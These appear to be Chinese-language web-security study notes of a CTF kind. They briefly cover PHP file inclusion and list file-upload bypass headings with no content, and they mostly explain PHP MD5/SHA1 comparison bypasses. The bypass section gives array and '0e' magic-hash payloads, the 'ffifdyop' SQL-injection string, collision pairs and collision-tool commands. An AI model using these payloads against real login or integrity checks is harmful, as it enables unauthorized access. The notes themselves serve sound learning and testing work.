

# 文件上传绕过
## 1、JS绕过
## 2、content-type绕过
## 3、文件头绕过
## 4、htaccess+png
## 5、别名绕过
## 6、文件内容检测绕过
## 7、文件名双写绕过

# 文件
# 文件包含漏洞
文件包含漏洞的产生原因是PP语言在通过引入文件时，引用的文件名，用户可控，由于传入的文件名没有经过合理的校验，或者校验被绕过，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。文件包含漏洞主要包括本地文件包含和远程文件包含两种形式。

文件包含函数：
include
include once
require
requlre once

当包含的文件当中，存在符合php语法的内容，则执行这些内容。
当包含的文件当中，不存在符合php语法的内容，则原封不动的输出这些内容
文件包含不需要考虑文件名是否为php。

只包含内容，不看后缀名，




# PHP—MD5和sha1绕过

**松散比较：**使用两个等号==比较，只比较值，)不比较缕
**严格比较：**用三个等号===比较，除了比较值，也比较类型
当比较的两个值的类型相同时，‘==’和‘===’的效果是相同的
开发过程中大量使用==编写代码逻辑

## 比较操作符

在进行比较的时候，会先判断两种字符承的类型是否相等，再比较
==在进行比较的时候，会先将字符串类型转化成相同，再比较
如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行
* 整型==整型
* 字符型==字符型
* 整型==字符型

## 1、php强比较类型-数组绕过
对于php强比较和弱比较：md5()，sha1()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL，也就是相等的。
```php
<?php
$a=$_GET['a'];
$b=$_GET['b'];
if ($a!==$b && md5($a)===md5($b)){
    return "hahaha";
}
```
使用：
```
?a[]=1&b[]=2
```
## 2、php弱比较类型-0e绕过
对于某些特殊的字符串加密后得到的密文以0e开头，PHP会当作科学计数法来处理，也就是0的n次方，得到的值比较的时候都相同：
```php
<?php
$a=$_GET['a'];
$b=$_GET['b'];
if ($a!==$b && md5($a)==md5($b)){
    return "hahaha";
}
```
md5：
```
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361
```
sha1：
```
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799
```
## 3、双重md5下的0e绕过
以下字符串进行两次md5后以0e开头
```
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk
```
## 4、参数弱类型等于自己的md5值

```php
$a==md5($a)
```
0e215962017 的 MD5 值也是由 0e 开头，在 PHP 弱类型比较中相等

## 5、md5绕过SQL
```
ffifdyop
经过md5函数后结果为 ：'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c；
```

```
129581926211651571912466741651878684928
经过md5函数后结果为： \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8；
```
## 6、NaN 和 INF
NAN和INF，分别为非数字和无穷大，但是var_dump一下它们的数据类型却是double，那么在md5函数处理它们的时候，是将其直接转换为字符串”NAN”和字符串”INF”使用的，但是它们拥有特殊的性质，它们与任何数据类型（除了true）做强类型或弱类型比较均为false，甚至
```
NAN===NAN是false，但md5('NaN')===md5('NaN')为true。
```
## 7、md5碰撞，sha1碰撞
使用碰撞可以绕过不同字符串，相同md5/sha1的强比较
**MD5碰撞：**
url:
两组经过url编码后的值，
```
#1
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2   
b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2   
#2
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2   
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%
#3
$a="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$b="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
```
**文件：**
linux使用md5collgen碰撞生成两个md5值相同但内容不同的文件
```bash
md5collgen -o 1.bin 2.bin
```
windows可以下载fastcoll，碰撞生成两个md5值相同但内容不同的文件
```cmd
fastcoll.exe -p 123.txt -o 1.txt 2.txt
```
**sha1碰撞：
url：**
```
a=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
b=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```
**文件：**
两个SHA1值相同而不一样(SHA256的值不同)的pdf文件, [shattered-1.pdf](vx_attachments/426141317236050/shattered-1.pdf)和[shattered-2.pdf](vx_attachments/426141317236050/shattered-2.pdf)


# 代码/命令执行


## 代码执行的绕过

## 命令执行